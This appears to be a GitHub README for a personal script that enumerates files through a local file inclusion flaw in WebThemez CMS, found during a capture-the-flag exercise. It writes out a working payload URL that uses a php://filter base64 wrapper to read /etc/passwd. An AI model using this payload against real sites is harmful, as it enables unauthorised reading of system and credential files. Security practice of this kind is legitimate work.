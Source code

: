 # WebThemez-LFI
LFI on WebThemez CMS.
This code doesn't confirm that it is an official vulnerability in WebThemez.com CMS, I got LFI in CTF, so create this script for myself to quick enumeration files using this script.<br/>
Vulnerable parameter: <b>http://IP/index.php?page=php://filter/read=convert.base64-encode/resource=/etc/passwd</b>
<h1>Author</h1>
<ul>
  <li><a href="https://twitter.com/l1v1n9h311">Kunal Kumar</a></li>
  </ul>
  
